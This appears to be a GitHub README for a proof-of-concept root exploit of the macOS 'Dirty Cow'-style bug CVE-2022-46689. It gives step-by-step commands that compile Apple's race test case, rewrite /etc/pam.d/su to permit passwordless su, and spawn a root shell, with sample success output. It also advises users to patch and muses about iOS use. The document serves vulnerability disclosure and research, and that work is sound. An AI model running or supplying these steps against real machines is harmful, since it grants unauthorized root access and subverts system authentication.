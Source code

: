 ```yaml
---
title: Get root on macOS 13.0.1 with CVE-2022-46689, the macOS Dirty Cow bug
categories: macos
permalink: /macdirtycow/
---
```


Get root on macOS 13.0.1 with [CVE-2022-46689](https://support.apple.com/en-us/HT213532) (macOS equivalent of the Dirty Cow bug), using the testcase extracted from [Apple's XNU source](https://github.com/apple-oss-distributions/xnu/blob/xnu-8792.61.2/tests/vm/vm_unaligned_copy_switch_race.c).

## Usage

On a macOS 13.0.1 / 12.6.1 (or below) machine, run:

```
clang -o switcharoo vm_unaligned_copy_switch_race.c
sed -e "s/rootok/permit/g" /etc/pam.d/su > overwrite_file.bin
./switcharoo /etc/pam.d/su overwrite_file.bin
su
```

You should get:

```
% ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
RO mapping was modified
% su
sh-3.2# 
```

Tested on macOS 13 beta (22A5266r) with SIP off (it should still work with SIP on).

If your system is fully patched (macOS 13.1 / 12.6.2), it should instead read:

```
$ ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
vm_read_overwrite: KERN_SUCCESS:9865 KERN_PROTECTION_FAILURE:3840 other:0
Ran 13705 times in 10 seconds with no failure
```

and running `su` should still ask for a password.

Thanks to Sealed System Volume, running this on any file on the `/System` volume only modifies the file temporarily: It's reverted on reboot. Running it on a file on a writeable volume will preserve the modification after a reboot.

## Should I be worried?

If you installed the latest macOS update (macOS 13.1 / 12.6.2 / 11.7.2), you should be fine.

If you haven't, do it now.

## Will this be useful for jailbreak?

Probably not.

This - as far as I can tell - affects userspace processes only. Jailbreaks require a kernel exploit. (The Apple Security release notes says that this bug may allow "arbitrary code with kernel privileges", but I can't see how.)

You might still do something cool on iOS with this, but I'm not sure what you'd overwrite: codesigning should protect all executables and libraries. (I have not tested this: let me know if you find anything!)

## Credits

- Ian Beer of [Project Zero](https://googleprojectzero.blogspot.com/) for finding the issue. Looking forward to your [blog post about the XNU memory subsystem](https://bugs.chromium.org/p/project-zero/issues/detail?id=2337#c3)!
- Apple for the [test case](https://github.com/apple-oss-distributions/xnu/blob/xnu-8792.61.2/tests/vm/vm_unaligned_copy_switch_race.c). (I didn't change anything: I just added the command line parameter to control what to overwrite.)
- [SSLab@Gatech](https://gts3.org/assets/papers/2020/jin:pwn2own2020-safari-slides.pdf) for the trick to disable password checking using `/etc/pam.d`.
- [@WangTielei](https://twitter.com/WangTielei/status/1603963997618855937) for sharing a related issue and answering my questions.